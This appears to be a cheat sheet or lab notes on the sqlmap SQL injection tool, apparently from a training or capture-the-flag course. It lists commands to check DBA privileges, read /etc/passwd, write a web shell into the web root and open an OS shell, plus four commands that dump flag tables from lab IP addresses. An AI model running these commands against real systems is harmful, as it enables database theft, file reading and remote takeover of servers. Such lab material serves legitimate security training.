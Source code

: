 | `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                      | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                 | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                     | Spawning an OS shell                                        |

```
sqlmap 'http://206.189.125.243:30088/case2.php' --data 'id=1*' --method POST --batch --dump -T flag2
```

```
sqlmap 'http://138.68.157.4:30136/case3.php' --cookie 'id=1*' --method POST --dump --batch -T flag3
```

```
sqlmap -u 206.189.125.243:32388/case4.php --data '{"id": "1*"}' --method POST --dump --batch -T flag4 -p id
```

```
sqlmap 'http://206.189.125.243:30885/case5.php' --data 'id=1*' --method GET --batch --dump -T flag5
```
